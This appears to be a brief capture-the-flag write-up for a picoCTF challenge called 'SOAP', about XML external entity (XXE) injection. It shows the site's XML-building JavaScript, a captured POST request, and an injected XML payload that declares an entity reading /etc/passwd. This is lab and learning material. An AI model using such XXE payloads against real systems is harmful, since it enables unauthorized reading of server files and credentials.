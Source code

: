 SOAP
--
`XML injection`
`XXE`

+ data: POST request
+ ![image](https://hackmd.io/_uploads/HJxAa25Ya.png)

+ `xmlDetailsCheckPayload.js`
```javascript=
window.contentType = 'application/xml';

function payload(data) {
    var xml = '<?xml version="1.0" encoding="UTF-8"?>';
    xml += '<data>';

    for(var pair of data.entries()) {
        var key = pair[0];
        var value = pair[1];

        xml += '<' + key + '>' + value + '</' + key + '>';
    }

    xml += '</data>';
    return xml;
}
```
+ Header + code

```xml=
POST /data HTTP/1.1
Host: saturn.picoctf.net:49309
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.216 Safari/537.36
Accept: */*
Referer: http://saturn.picoctf.net:49309/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Length: 135

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file://etc/passwd">
]>
<data><ID>&file;</ID></data>

```

+ Inject code
```xml=
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
    <!ENTITY file SYSTEM “file:///etc/passwd” >
]>
<data>
    <ID>
        &file;
    </ID>
</data>

```
